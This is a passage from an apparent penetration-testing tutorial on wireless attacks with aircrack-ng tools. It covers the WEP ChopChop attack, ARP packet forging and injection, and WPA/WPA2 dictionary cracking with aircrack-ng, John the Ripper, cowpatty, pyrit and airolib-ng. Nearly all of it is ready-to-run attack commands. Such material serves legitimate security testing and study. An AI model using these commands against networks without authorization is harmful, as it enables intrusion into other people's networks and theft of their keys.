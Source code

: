 #### ChopChop Attack (WEP) & Packet Forging

```bash
# 1. Fake authenticate (if needed, see above).
# 2. ChopChop attack to get a PRGA (pseudo random generation algorithm) XOR file:
#    sudo aireplay-ng -4 -b <BSSID_of_AP> -h <your_MAC_address> <monitor_interface>
#    Follow prompts, it will save a .xor file.
# 3. Forge an ARP packet using the .xor file:
#    sudo packetforge-ng -0 -a <BSSID_of_AP> -h <your_MAC_address> -k <dest_IP> -l <source_IP> -y <path_to_xor_file> -w <output_arp_pcap_file>
#      -k <dest_IP>: Destination IP for ARP (e.g., an IP on the target network).
#      -l <source_IP>: Source IP for ARP (e.g., an IP outside the target network, or a client IP if known).
# 4. Inject the forged ARP packet:
#    sudo aireplay-ng -2 -r <output_arp_pcap_file> <monitor_interface>
```


---

## Step 5: Crack Passwords/Keys (`aircrack-ng`)



### Cracking WPA/WPA2-PSK (Dictionary Attack)

```bash
# aircrack-ng -w <path_to_wordlist> -b <BSSID_of_AP> <path_to_capture_file.cap>
#   -w <path_to_wordlist>: Path to the wordlist file (one password candidate per line).
#   -b <BSSID_of_AP>: (Optional but recommended) MAC address of the target AP to focus the attack.
#   <path_to_capture_file.cap>: Path to the .cap file containing the WPA handshake.
# Example:
sudo aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 00:11:22:33:44:55 capture_handshake-01.cap
```


### Cracking WEP Keys


```bash
# aircrack-ng <path_to_capture_file.cap>
# Example:
# sudo aircrack-ng wep_capture-01.cap
# `aircrack-ng` will analyze the IVs and attempt to derive the WEP key.
# If it asks to choose a target, select the BSSID of your target network.
```

### Advanced WPA/WPA2 Cracking Techniques (Brief Mention)

*   **Using John The Ripper (JTR) with `aircrack-ng`:**
    ```bash
    # john --wordlist=<wordlist> --rules --stdout | sudo aircrack-ng -e <ESSID> -w - <capture.cap>
    # This pipes JTR's generated password candidates (with rules applied) directly to aircrack-ng.
    ```
*   **Using `cowpatty` or `pyrit`:** These tools can also perform WPA/WPA2 dictionary attacks, sometimes with precomputed hashes (PMK tables) to speed up the process for common SSIDs.
    *   `cowpatty -r <capture.cap> -f <wordlist> -s <ESSID>`
    *   `pyrit -r <capture.cap> -i <wordlist> attack_passthrough`
*   **Precomputed WPA Keys Database (`airolib-ng`):**
    `airolib-ng` can be used to create a database of precomputed Pairwise Master Keys (PMKs) for specific SSIDs and passwords from a wordlist. This can significantly speed up cracking if the target SSID is in your database.